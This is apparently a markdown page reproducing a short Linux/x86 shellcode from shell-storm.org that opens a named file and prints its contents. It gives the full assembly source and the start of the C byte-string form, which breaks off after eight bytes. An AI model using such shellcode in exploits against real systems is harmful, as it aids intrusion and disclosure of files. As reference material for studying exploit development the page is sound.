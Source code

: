 # File Reader

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-73.php](http://shell-storm.org/shellcode/files/shellcode-73.php)

Original source code:
```nasm
/*
Linux/x86 file reader.

65 bytes + pathname
Author: certaindeath

Source code:
_start:
	xor	%eax, %eax
	xor	%ebx, %ebx
	xor	%ecx, %ecx
	xor	%edx, %edx
	jmp	two

one:
	pop	%ebx
	
	movb	$5, %al
	xor	%ecx, %ecx
	int	$0x80
	
	mov	%eax, %esi
	jmp	read

exit:
	movb	$1, %al
	xor	%ebx, %ebx
	int	$0x80

read:
	mov	%esi, %ebx
	movb	$3, %al
	sub	$1, %esp
	lea	(%esp), %ecx
	movb	$1, %dl
	int	$0x80

	xor	%ebx, %ebx
	cmp	%eax, %ebx
	je	exit

	movb	$4, %al
	movb	$1, %bl
	movb	$1, %dl
	int	$0x80
	
	add	$1, %esp
	jmp	read

two:
	call	one
	.string	"file_name"
*/
char main[]=
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
```